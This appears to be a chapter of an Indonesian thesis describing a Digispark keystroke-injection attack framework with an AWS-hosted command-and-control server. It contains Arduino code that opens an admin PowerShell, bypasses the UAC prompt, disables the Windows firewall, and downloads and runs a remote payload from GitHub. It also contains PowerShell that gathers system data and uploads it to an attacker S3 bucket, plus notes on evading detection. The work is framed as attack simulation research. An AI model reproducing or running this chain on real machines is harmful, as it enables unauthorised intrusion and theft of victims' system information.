%-----------------------------------------------------------------------------%
\chapter{\babTiga}
%-----------------------------------------------------------------------------%
Bab ini akan menjelaskan perancangan sistem dan model framework dari Sistem Serangan menggunakan Digispark berbasis Keystroke Injection


%-----------------------------------------------------------------------------%
\section{Alur Penelitian}
%-----------------------------------------------------------------------------%

\begin{figure}
	\centering
	
\includegraphics[width=0.95\textwidth]
		{assets/pics/Alur Penelitian.png}
	\caption{Diagram Alur Penelitian}
	\label{fig:testGambar}
\end{figure}

Alur penelitian ini dimulai dengan studi literatur, di mana peneliti mengumpulkan referensi terkait konsep Command and Control (C2), PowerShell, keystroke injection, dan perangkat Digispark. Setelah itu, dilakukan setup environment untuk framework, termasuk pengaturan server C2, perangkat korban, dan perangkat Digispark sebagai media keystroke injection.


Langkah berikutnya adalah desain dan implementasi, yang mencakup perancangan komponen framework serta pengintegrasian modul PowerShell dan Digispark. Setelah framework selesai dikembangkan, dilakukan pengujian awal untuk mengevaluasi performanya dalam skenario simulasi serangan. Jika hasil pengujian tidak sesuai dengan ekspektasi, penelitian dilanjutkan dengan tuning dan optimasi, di mana parameter framework diperbaiki dan diuji ulang hingga mendapatkan hasil yang diinginkan.


Setelah hasil sesuai, framework dievaluasi secara menyeluruh dalam tahap analisis dan evaluasi, untuk memastikan efektivitas dan fungsionalitasnya. Penelitian diakhiri dengan menyimpan framework dalam bentuk final yang siap untuk digunakan dan didokumentasikan.

%-----------------------------------------------------------------------------%
\section{Setup Environment}
%-----------------------------------------------------------------------------%
Dengan tujuan simulasi serangan siber yang realistis, penulis menggunakan perangkat keras berikut:
\begin{itemize}
    \item CPU   : 13th Gen Intel(R) Core(TM) i5-13500H   2.60 GHz
    \item RAM   : 16.0 GB (15.7 GB usable)
    \item Digispark Rev.3

\end{itemize}

Penulis menggunakan perangkat lunak sebagai berikut:
\begin{itemize}
    \item OS    : Windows 11 (version 22631.4602)
    \item Arduino IDE
    \item Duckuino
    \item Amazone AWS

\end{itemize}


%-----------------------------------------------------------------------------%
\section{Implementasi Framework}
%-----------------------------------------------------------------------------%
Implementasi framework dilakukan dengan beberapa tahapan penting yang saling berkaitan. Tahap pertama adalah pemrograman perangkat Digispark menggunakan Arduino IDE. Dalam proses ini, library DigiKeyboard.h dimanfaatkan untuk memungkinkan Digispark mensimulasikan input keyboard secara otomatis. Script yang diprogram pada Digispark berisi instruksi untuk menyisipkan payload PowerShell ke dalam perangkat target. Payload ini dirancang untuk dapat dieksekusi secara otomatis begitu Digispark tersambung ke perangkat target, sehingga pengguna tidak memerlukan intervensi tambahan.

\subsection{Pemrograman Digispark}
\begin{figure}
	\centering
	
\includegraphics[width=0.95\textwidth]
		{assets/pics/ArduinoIDE.png}
	\caption{Pengembangan Keystroke Injection}
	\label{fig:testGambar}
\end{figure}

Pada tahapan pengembangan ini, penulis memanfaatkan Arduino IDE untuk memprogram Digispark sebagai perangkat keystroke injection. Digispark merupakan sebuah perangkat mikrokontroler yang unik sehingga sebelum memulai tahapan pengembangan, penulis harus menginstall board Digispark (Default 16.5 mhz). Program yang dikembangkan bertujuan untuk mematikan firewall pada windows defender dan juga menginstall payload pada perangkat korban.

\begin{verbatim}

  // Begin the Keyboard stream
  DigiKeyboard.sendKeyStroke(0); // Start the keyboard

  // Wait 500ms
  delay(500);

  // Open the Power User Menu (Windows + X)
  DigiKeyboard.sendKeyStroke(KEY_X, MOD_GUI_LEFT);  // Windows 
  key + X to open the Power User Menu
  delay(1000);

  // Open Windows Terminal or PowerShell as Administrator (A 
  key)
  DigiKeyboard.print("a");  // Press 'A' to select 'Windows 
  Terminal (Admin)' or 'PowerShell (Admin)'
  delay(1000);

  // Simulate Tab to navigate to "Yes" in UAC (Press Tab 3 
  times to ensure focus is on the Yes button)
  for (int i = 0; i < 3; i++) {
    DigiKeyboard.sendKeyStroke(0x2B);  // Tab key (0x2B in HID)
    delay(500);
  }

  // Press Enter to confirm the Yes button
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  delay(5000);

\end{verbatim}

Pada potongan program ini, perangkat Digispark akan memulai mengaktifkan keyboard yang lalu mengakses command prompt sebagai administrator. 

\begin{verbatim}
// Disable Windows Firewall for all profiles (domain, private, public)
  typeString("Set-NetFirewallProfile -Profile 
  Domain,Public,Private -Enabled False");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  delay(5000);
\end{verbatim}

Pada bagian ini, Digispark akan melakukan keyboard stream dalam command prompt dengan akses administrator untuk menonaktifkan firewall pada semua user dan profile yang ada dalam perangkat korban. Hal ini dilakukan untuk membuka port pada perangkat tersebut agar dapat dimanfaatkat oleh serangan C2.

\begin{verbatim}
// Payload: This command downloads and executes a remote script
  DigiKeyboard.print("Invoke-WebRequest -Uri 
  'https://raw.githubusercontent.com/kenawhy/teleportScroll/ref
  s/heads/main/payload.ps1' -OutFile 
  'C:\\Users\\Public\\payload.ps1'");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  delay(2000);
  DigiKeyboard.print("Start-Process powershell -ArgumentList '-
  ExecutionPolicy Bypass -File 
  C:\\Users\\Public\\payload.ps1'");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  delay(2000);
\end{verbatim}

Bagian ini akan mendownload payload yang sudah dibuat dalam github penulis dan mengeksekusi payload tersebut.

\subsection{Payload}
Payload digunakan oleh penulis untuk menanamkan script pada perangkat korban. Tujuan utama dari payload ini adalah mengurangi load yang ada pada Digispark dan juga menanamkan script persistent.

\begin{verbatim}
# Write a message to the local system as a log
Write-Output "Executing C2 tasks on $(hostname)" | Out-File -
FilePath "C:\Users\Public\c2_log.txt" -Append

# Task 1: Gather system information
$hostname = (hostname)
$ipconfig = (ipconfig /all | Out-String)
$systeminfo = (systeminfo | Out-String)

# Combine information into one variable and save it to a file
$info = "Hostname: $hostname`nIP Config:`n$ipconfig`nSystem 
Info:`n$systeminfo"
$info | Out-File -FilePath "C:\Users\Public\sysinfo.txt"

\end{verbatim}

Secara garis besar payload1 ini terbagi menjadi dua task. Task 1 bertugas untuk mengambil data - data pribadi dari perangkat korban seperti ip, hostname, dan systeminfo. Setelah berhasil, script akan mengumpulkan informasi dari perangkat korban dan membuat file sysinfo.txt sebagai output.

\begin{figure}
	\centering
	
\includegraphics[width=0.95\textwidth]
		{assets/pics/Sysinfo.png}
	\caption{Contoh Output Sysinfo.txt}
	\label{fig:testGambar}
\end{figure}

\begin{verbatim}
# Upload the file to AWS S3
$bucketName = "shell-raid"
$s3Key = "sysinfo-$(hostname)-$(Get-Date -Format 
'yyyyMMddHHmmss').txt"

# Ensure AWS Tools for PowerShell is installed
if (-not (Get-Command -Name "Write-S3Object" -ErrorAction 
    SilentlyContinue)) {
    Install-Module -Name "AWSPowerShell" -Force -Scope 
    CurrentUser
}

# Upload the file to S3
try {
    Write-S3Object -BucketName $bucketName -Key $s3Key -File 
    $infoFilePath -Region "ap-southeast-2"
    Write-Output "File uploaded successfully to S3: 
    $bucketName/$s3Key"
} catch {
    Write-Output "Failed to upload file to S3. Error: $_"
}
\end{verbatim}

Pada Task 2, script akan mengirimkan sysinfo.txt yang sudah diambil dari perangkat korban ke cloud AWS yang sudah disetup oleh penulis.

\subsection{Cloud Server}
Pada tahap ini, penulis melakukan setup cloud server menggunakan layanan AWS untuk mendukung fungsi server Command and Control (C2). Cloud server ini dirancang untuk menerima file payload yang diunggah dari perangkat target. Penulis menggunakan layanan Amazon S3 dan membuat bucket bernama shell-raid sebagai tujuan untuk upload file. 

\begin{figure}
	\centering
	
\includegraphics[width=0.95\textwidth]
		{assets/pics/AWSbucket.png}
	\caption{Bucket shell-raid pada Server AWS}
	\label{fig:testGambar}
\end{figure}


Berikut merupakan bucket yang sudah dirancang oleh penulis sehingga dapat menerima informasi pribadi dari perangkat korban. Dalam bucket ini terdapat sebuah file bernama loot yang menjadi tujuan akhir informasi tersebut.

Konfigurasi AWS mencakup pengaturan bucket policy agar hanya perangkat tertentu yang dapat mengaksesnya, serta memastikan koneksi menggunakan protokol HTTPS untuk keamanan data. Dalam policy bucket ini hanya account bernama "Arthur" yang dapat mengakses bucket tersebut. Payload yang sudah ditanam melalui keystroke injection memiliki key dari account "Arthur" sehingga dapat langsung mengirimkan informasi yang sudah diambil.

%-----------------------------------------------------------------------------%
\section{Pengujian Awal}
Setelah implementasi framework selesai, pengujian awal dilakukan untuk memastikan bahwa setiap komponen bekerja sesuai dengan desain yang direncanakan. Pada tahap ini, simulasi serangan dimulai dengan menggunakan Digispark untuk menyisipkan payload PowerShell ke perangkat korban. Setelah payload dieksekusi, perangkat korban diharapkan dapat terhubung ke server C2 melalui koneksi yang telah dikonfigurasi.


\begin{figure}
	\centering
	
\includegraphics[width=0.45\textwidth]
		{assets/pics/firewall_bounty.png}
	\caption{Disabled Firewall}
	\label{fig:testGambar}
\end{figure}

\begin{figure}
	\centering
	
\includegraphics[width=0.95\textwidth]
		{assets/pics/attack_result.png}
	\caption{Uji Serangan}
	\label{fig:testGambar}
\end{figure}

Pada pengujian awal script keystroke injection berhasil untuk mematikan firewall, mengunduh payload, dan menjalankan payload yang sudah disisipkan dalam perangkat korban. Tetapi pada pengujian awal ini, file sysinfo.txt yang merupakan output dari serangan ini tidak berhasil untuk diupload ke bucket shell-raid sebagaimana yang diharapkan.


Penulis melakukan percobaan kembali dengan perangkat yang berbeda dan memiliki hasil yang kurang memuaskan. Dalam percobaan ini, perangkat korban tidak dapat membaca perangkat Digispark. Setelah melakukan troubleshooting, penulis menemukan bahwa Arduino IDE dengan board Digispark harus sudah terinstall pada perangkat tersebut. 


Kendala ini memberikan indikasi bahwa framework memerlukan penyesuaian lebih lanjut untuk memastikan keberhasilan komunikasi antara perangkat target dan server C2. Hasil pengujian awal ini menjadi dasar untuk melakukan tuning dan optimasi pada tahap berikutnya, dengan fokus pada perbaikan script payload, pengaturan ulang server C2, dan konfigurasi Digispark yang merupakan perangkat utama dalam simulasi ini.
%-----------------------------------------------------------------------------%

%-----------------------------------------------------------------------------%
\section{Tuning dan Optimasi}
Setelah menemukan kendala pada pengujian awal, proses tuning dan optimasi dilakukan untuk meningkatkan performa framework yang telah dikembangkan. Langkah pertama adalah meninjau kembali script payload PowerShell yang digunakan untuk memastikan bahwa perintah-perintah yang dieksekusi sesuai dengan kebutuhan. Penyesuaian dilakukan pada struktur script, termasuk mekanisme pengiriman data ke server C2. Dalam hal ini, penambahan logging pada script PowerShell membantu dalam mengidentifikasi titik-titik kegagalan selama proses komunikasi berlangsung.


Langkah berikutnya adalah memperbaiki konfigurasi server C2 yang dihosting di Amazon AWS. Proses ini melibatkan pengaturan ulang firewall dan port yang digunakan untuk komunikasi dengan perangkat target. Selain itu, dilakukan verifikasi terhadap parameter protokol yang digunakan, seperti protokol HTTP atau HTTPS, untuk memastikan bahwa koneksi dapat diterima dan diproses oleh server C2 tanpa hambatan.


Perangkat Digispark juga mendapat perhatian dalam proses optimasi ini. Script yang diunggah ke perangkat diperbarui untuk memperbaiki timing eksekusi keystroke, memastikan bahwa payload berhasil dimasukkan ke perangkat target tanpa terdeteksi oleh mekanisme keamanan sistem operasi. Percobaan berulang dilakukan untuk menyempurnakan urutan perintah dan waktu jeda antar-eksekusi agar proses injeksi dapat berjalan lebih cepat dan akurat.


Tahapan tuning dan optimasi ini dilanjutkan dengan simulasi serangan menggunakan framework yang telah diperbarui. Setiap perubahan dievaluasi berdasarkan keberhasilan komunikasi antara perangkat target dan server C2, serta efisiensi injeksi payload oleh Digispark. Hasil dari tahapan ini menunjukkan perbaikan signifikan dalam performa framework, di mana koneksi ke server C2 berhasil dijalin, dan payload dapat dieksekusi dengan baik di perangkat target. Proses tuning dan optimasi ini menjadi kunci untuk memastikan framework dapat digunakan secara efektif dalam mensimulasikan serangan siber yang realistis.
%-----------------------------------------------------------------------------%